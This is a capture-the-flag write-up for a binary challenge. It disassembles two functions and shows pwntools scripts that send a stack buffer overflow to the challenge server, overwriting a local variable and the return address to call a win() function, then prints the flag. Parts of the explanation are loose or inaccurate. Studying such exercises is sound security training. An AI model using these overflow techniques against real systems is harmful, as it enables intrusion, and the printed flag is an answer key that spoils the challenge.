# Challenge Name: Beef-Of-Finitude

To start off, we see a main function which calls function myFun.
Let's disass function myFun:
```
   0x08049364 <+22>:	mov    DWORD PTR [ebp-0xc],0x7
   0x0804936b <+29>:	sub    esp,0xc
   0x0804936e <+32>:	lea    eax,[ebx-0x1f78]
   0x08049374 <+38>:	push   eax
   0x08049375 <+39>:	call   0x80490d0 <puts@plt>
   0x0804937a <+44>:	add    esp,0x10
   0x0804937d <+47>:	mov    eax,DWORD PTR [ebx-0x8]
   0x08049383 <+53>:	mov    eax,DWORD PTR [eax]
   0x08049385 <+55>:	sub    esp,0x4
   0x08049388 <+58>:	push   eax
   0x08049389 <+59>:	push   0x10
   0x0804938b <+61>:	lea    eax,[ebp-0x1c]
   0x0804938e <+64>:	push   eax
   0x0804938f <+65>:	call   0x80490c0 <fgets@plt>
   0x08049394 <+70>:	add    esp,0x10
   0x08049397 <+73>:	sub    esp,0xc
   0x0804939a <+76>:	lea    eax,[ebx-0x1f66]
   0x080493a0 <+82>:	push   eax
   0x080493a1 <+83>:	call   0x80490d0 <puts@plt>
   0x080493a6 <+88>:	add    esp,0x10
   0x080493a9 <+91>:	mov    eax,DWORD PTR [ebx-0x8]
   0x080493af <+97>:	mov    eax,DWORD PTR [eax]
   0x080493b1 <+99>:	sub    esp,0x4
   0x080493b4 <+102>:	push   eax
   0x080493b5 <+103>:	push   0x150
   0x080493ba <+108>:	lea    eax,[ebp-0x26]
   0x080493bd <+111>:	push   eax
   0x080493be <+112>:	call   0x80490c0 <fgets@plt>
   0x080493c3 <+117>:	add    esp,0x10
   0x080493c6 <+120>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x080493cd <+127>:	jne    0x80493ed <myFun+159>
   0x080493cf <+129>:	mov    DWORD PTR [ebx+0x34],0x1
   0x080493d9 <+139>:	sub    esp,0xc
   0x080493dc <+142>:	lea    eax,[ebx-0x1f50]
   0x080493e2 <+148>:	push   eax
   0x080493e3 <+149>:	call   0x80490d0 <puts@plt>
   0x080493e8 <+154>:	add    esp,0x10
   0x080493eb <+157>:	jmp    0x80493ff <myFun+177>
   0x080493ed <+159>:	sub    esp,0xc
   0x080493f0 <+162>:	lea    eax,[ebx-0x1f10]
   0x080493f6 <+168>:	push   eax
   0x080493f7 <+169>:	call   0x80490d0 <puts@plt>
   0x080493fc <+174>:	add    esp,0x10
```   
This functions takes in two inputs (strings), one as name and the other as password. 
An initial variable say var is defined and is equal to 7. i.e var = 0x7 as seen from line 22 in myFun.
The first input and second inputs are 16 bytes long, however, if we look at line 103, we can see a 'push 0x150' command, which suggests that though the size for second input is 16 bytes, its taking 0x150 in total. 
This would mean that there is a chance to overflow the buffer to proceed to line 120, where the var value is compared with 0xdeadbeef and as we know var is stored at ebp-0xc as seen from line 22. 
Hence to satisfy the condition, we need to overflow the password in a way so that, var = 0xdeadbeef. To do that we may use the following code:
```
from pwn import *
r = remote('challenges.ctfd.io', 30027)

r.recvuntil('Enter your Name:')
r.sendline('shravya')

r.recvuntil('Enter your password:')
r.send('B'*26 + p32(0xdeadbeef))
r.interactive()
```
Till here we have just overflown the buffer. This allows us into the shell but however to get the flag we may have to call the win() function. 
The gdb dump for the win() function is:
```
   0x08049240 <+10>:	sub    esp,0x12c                                            ; the stack size defined for win function is 0x12c or 300 bytes, whereas that for password input of myFun was 336 bytes. 
   0x08049246 <+16>:	call   0x8049170 <__x86.get_pc_thunk.bx>                    ; which implies that we can overflow the buffer into yet another function, i.e the win() function. To do so, we will first have to fill the above stack with 336-300 = 36 bytes, since the win function accpets 4 arguments, 
   0x0804924b <+21>:	add    ebx,0x2db5                                           ; 
   0x08049251 <+27>:	mov    ecx,DWORD PTR [ebp+0x8]                              ; the following lines determine the 4 arguments to the win() function,
   0x08049254 <+30>:	mov    DWORD PTR [ebp-0x130],ecx                            ; if ((((param_2 | param_1 ^ 0x14b4da55) == 0) && ((param_3 ^ 0x67616c66 | param_4) == 0)))
   0x0804925a <+36>:	mov    ecx,DWORD PTR [ebp+0xc]                              ; thus param_2 = 0; param_1 = 0x14b4da55 and param_3 = 0; param_4 = 0x67616c66
   0x0804925d <+39>:	mov    DWORD PTR [ebp-0x12c],ecx                            
   0x08049263 <+45>:	mov    ecx,DWORD PTR [ebp+0x10]
   0x08049266 <+48>:	mov    DWORD PTR [ebp-0x138],ecx
   0x0804926c <+54>:	mov    ecx,DWORD PTR [ebp+0x14]
   0x0804926f <+57>:	mov    DWORD PTR [ebp-0x134],ecx
   0x08049275 <+63>:	mov    ecx,DWORD PTR [ebp-0x130]
   0x0804927b <+69>:	xor    ecx,0x14b4da55
   0x08049281 <+75>:	mov    esi,ecx
   0x08049283 <+77>:	mov    ecx,DWORD PTR [ebp-0x12c]
   0x08049289 <+83>:	xor    ch,0x0
   0x0804928c <+86>:	mov    edi,ecx
   0x0804928e <+88>:	mov    ecx,edi
   0x08049290 <+90>:	or     ecx,esi
   0x08049292 <+92>:	test   ecx,ecx
   0x08049294 <+94>:	jne    0x80492c0 <win+138>
   0x08049296 <+96>:	mov    ecx,DWORD PTR [ebp-0x138]
   0x0804929c <+102>:	xor    ecx,0x67616c66
 ```  
   Thus in order to overflow the buffer at the password, and to call the win() function once the right value is compared at ebp-0xc register, we willnhave to:
      - rewrite ebp-0xc with p32(0xdeadbeef) since that is what it is compared with,
      - rewrite the return address stored at eip to that of the win function, 
      - pass arguments of win function, i.e 
   param_1 = p32(0x14b4da55), param_2 = p32(0x0), param_3 = p32(0x67616c66), param_4 = p32(0x0)
   
   ## python program : (cotinuation)
   
   from pwn import *
   r = remote('challenges.ctfd.io', 30027)

   r.recvuntil('Enter your Name:')
   r.sendline('hi')

   r.recvuntil('Enter your password:')
   r.sendline('B'*26 + p32(0xdeadbeef) + 'B'*12 + p32(0x0804923a) + p32(0x0804923a) + p32(0x14b4da55) + p32(0x0) + p32(0x67616c66) + p32(0x0))

   r.interactive()
   
   ## Flag:
   UDCTF{0bl1g4t0ry_buff3r_ov3rflow}
